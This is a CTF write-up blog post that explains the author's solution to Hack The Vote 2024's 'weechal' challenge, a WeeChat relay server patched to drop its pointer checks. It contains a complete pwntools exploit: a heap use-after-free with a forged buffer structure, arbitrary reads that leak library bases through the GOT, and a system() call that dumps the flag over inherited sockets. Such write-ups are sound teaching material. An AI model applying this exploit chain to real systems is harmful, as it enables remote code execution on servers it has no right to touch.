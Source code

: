 ```yaml
---
title: "Hack The Vote 2024: weechal"
date: 2024-11-10T10:40:00-05:00
type: posts
tags: ["Binary Exploitation", "CTF"]
---
```


Weechal was a binary exploitation challenge in Hack The Vote 2024, an election-themed computer security Capture the Flag (CTF) competition run by RPISEC.

I competed under the team name "worst" along with my friend Krishna and managed to solve this challenge on day two of the event. We were the second of five teams to solve it, missing first blood by a few hours.

## Challenge

The challenge was a modified build of version 3.4 of the [WeeChat IRC client](https://weechat.org/) that was running as a relay server using WeeChat's own protocol, which is described by the user manual as being *"used by remote interfaces to display and interact with WeeChat."* The [exact commands](https://github.com/RPISEC/HackTheVote/blob/master/2024/pwn/weechal/src/challenge) used to launch the challenge have us communicating with the relay through a Unix domain socket and set "ctf" as the password needed to connect.

In WeeChat, a *window* is an area of the screen that displays a *buffer*, which in turn is an object that contains text and to which text and commands can be sent by the user. For example, there is a buffer for each channel the user is chatting in as well as a main "core" buffer that always exists.

As documented in the [WeeChat Relay protocol specification](https://weechat.org/files/doc/devel/weechat_relay_protocol.en.html), the protocol involves passing raw pointers between the client and server. For example, if the client politely asks the server for a list of buffers by sending "`infolist buffer`", the server will happily reply with, among other information, the addresses of the [`t_gui_buffer`](https://github.com/weechat/weechat/blob/3.4/src/gui/gui-buffer.h#L73-L224) structures representing each buffer.

These addresses can also be used as arguments to other commands, such as `input 0x1234abcd hello`, which would attempt to send "hello" to the buffer at memory address `0x1234abcd`. Ordinarily the server makes sure that the pointers it's given are valid, but the challenge has been compiled with [this patch](https://github.com/RPISEC/HackTheVote/blob/master/2024/pwn/weechal/src/chal.patch) to remove some of these checks, allowing us to trick it into using any memory we like as if it were a `t_gui_buffer`. This capability can be used to gain arbitrary code execution and read the `flag.txt` file.


## Exploit

My approach was to create a buffer, learn its address with `infolist buffer`, and close it, freeing its memory. I filled the hole where the buffer used to be with the `/eval` command, using `${base_decode:16,...}` to send a hex-encoded string to avoid issues with null-termination.

It turns out that there is a [static buffer](https://github.com/weechat/weechat/blob/3.4/src/plugins/relay/relay-client.c#L580) in `relay.so` holding the raw bytes sent by the client before any parsing takes place. Using this would have eliminated the need to leak any heap addresses at all, but unfortunately I was not aware of it. Taking advantage of its existence is left as an exercise for the reader.

Let's walk through the exploit step by step, using the excellent [pwntools](https://github.com/Gallopsled/pwntools) library to make life easier. We start by connecting to and performing a handshake with the relay server, disabling compression for simplicity. Then the previously mentioned buffer is allocated, its address is leaked, and finally it is freed.

```python
from pwn import *

context.binary = "weechat/bin/weechat-headless"
libc = ELF("libc.so.6")
relay = ELF("weechat/lib/weechat/plugins/relay.so")

io = remote("weechal.chal.hackthe.vote", 1337)
io.sendline(b"handshake compression=off")
io.sendline(b"init password=ctf")

io.sendline(b"input core.weechat /buffer add asdf")
io.sendline(b"infolist buffer")
io.sendline(b"input core.weechat /buffer close asdf")
```

The messages the server sends back are in a binary format, but we can get the information we need without properly parsing it. See the protocol specification if you're interested in the details.

The first pointer received points to the `t_gui_buffer` for the main `core.weechat` buffer, though we won't actually be using it. Next up is a buffer created by the relay plugin, which will be useful later. Finally, we receive the address of the hole we've created.

```python
def read_pointer():
    io.recvuntil(b"pointer")
    io.recvuntil(b"ptr")
    return int(io.recvn(u8(io.recvn(1))), 16)


core_weechat = read_pointer()
relay_buffer = read_pointer()
hole = read_pointer()
log.info(f"{relay_buffer=:#x}")
log.info(f"{hole=:#x}")
```

We can now fill in the hole. The `eval ${base_decode:16...}` command will decode a hex-encoded string into a fresh heap allocation. By sending a string of the correct length, we can get this to be the same area of memory that our recently freed `t_gui_buffer` occupied and forge our own in its place.

```python
def fill_hole(*args):
    data = flat(*args, length=0x248 // 2 - 1, filler=p8(0))
    io.sendline(
        b"input core.weechat /eval ${base_decode:16," + data.hex().encode() + b"}"
    )
```

Being able to hex-encode the payload is nice because it sidesteps any issues with null termination, but the implementation of `base_decode` conservatively creates an allocation with the same size as the hex string we give it. We need to send a string of length `sizeof(t_gui_buffer) = 0x248` to fill the hole, but after being decoded our payload will only fill half of that. Luckily, this turns out not to be a problem as we don't need to control anything beyond the first half of `t_gui_buffer`.

After the `eval` command completes, the allocation will be freed again, though most of the data will remain intact. This actually works in our favor, allowing repeated uses of `eval` to reuse the same memory as many times as needed without extra effort.

As for what to send, let's examine the `t_gui_buffer` structure. Here are the relevant fields and their corresponding offsets as shown by the `ptype` command in `gdb`:

```plaintext
(gdb) ptype/ox struct t_gui_buffer
/* offset  |    size */  type = struct t_gui_buffer {
                           ...
/* 0x0028  |  0x0008 */    char *full_name;
                           ...
/* 0x00b8  |  0x0008 */    struct t_gui_nick_group *nicklist_root;
                           ...
/* 0x0100  |  0x0008 */    int (*input_callback)(const void *, void *, struct t_gui_buffer *, const char *);
/* 0x0108  |  0x0008 */    const void *input_callback_pointer;
                           ...
                               /* total size (bytes):  584 */
                         }
```

The plan is to point `input_callback` to the `system` function in the C standard library, point `input_callback_pointer` to the command to run, and then send an `input` command to our fake buffer to trigger a call to `input_callback`. Before that happens, `full_name` will be passed to `strdup`, so we also need to make sure it points to a valid address.

To locate `system` we need a way of reading from an arbitrary address. This can be accomplished with the `nicklist` command, which walks through a linked list of `t_gui_nick_group` structures starting at `nicklist_root`.

```plaintext
(gdb) ptype struct t_gui_nick_group
type = struct t_gui_nick_group {
    char *name;
    char *color;
    int visible;
    int level;
    struct t_gui_nick_group *parent;
    struct t_gui_nick_group *children;
    struct t_gui_nick_group *last_child;
    struct t_gui_nick *nicks;
    struct t_gui_nick *last_nick;
    struct t_gui_nick_group *prev_group;
    struct t_gui_nick_group *next_group;
}
```

We can craft a list with a single entry that has its `name` set to wherever we're interested in reading from. The data starting at that address and continuing until the first null byte will be found at offset `0x9e` in the response to `nicklist`.

```python
def leak(addr):
    fill_hole(
        {
            0x28: hole,  # full_name
            0xB8: hole + 0xC0,  # nicklist_root
            0xC0: [addr, hole, 1, 0, 0, 0, 0, 0, 0, 0, 0],
        }
    ),
    io.clean()
    io.sendline(f"nicklist {hole:#x}".encode())
    io.recvn(0x9E)
    return u64(io.recvn(8))
```

`system` can be found by starting at `relay_buffer->input_callback`, which holds the address of the `relay_buffer_input_cb` function in `relay.so`, then reading the address of a function in `libc.so` from `relay.so`'s global offset table.

```python
relay.address = leak(relay_buffer + 0x100) - relay.symbols["relay_buffer_input_cb"]
libc.address = leak(relay.symbols["got.ctime"]) - libc.symbols["ctime"]
log.info(f"{relay.address=:#x}")
log.info(f"{libc.address=:#x}")
```

Now we can simply run `cat flag.txt` to read the flag, but since we're not connected to the server's standard output we won't receive anything back. The socket we are connected to will be inherited by the shell `system` spawns, though, and it's easy enough to redirect the output of `cat` to it. The command in the following code loops over all open file descriptors, trying each one. It's not very elegant, but this is CTF!

```python
fill_hole(
    {
        0x28: hole,  # full_name
        0x30: b"for fd in $(ls /proc/$$/fd); do cat flag.txt >&$fd; done",
        0x100: libc.symbols["system"],  # input_callback
        0x108: hole + 0x30,  # input_callback_pointer
    }
)
io.sendline(f"input {hole:#x} asdf".encode())
log.success(io.recvregex(b"(flag\{.*\})", capture=True)[1].decode())
```

The full exploit can be found [here](solve.py). Running it yields the flag:

```plaintext
flag{i_cant_believe_i_had_to_patch_out_checks_in_an_api_that_takes_pointers_over_the_wire}
```
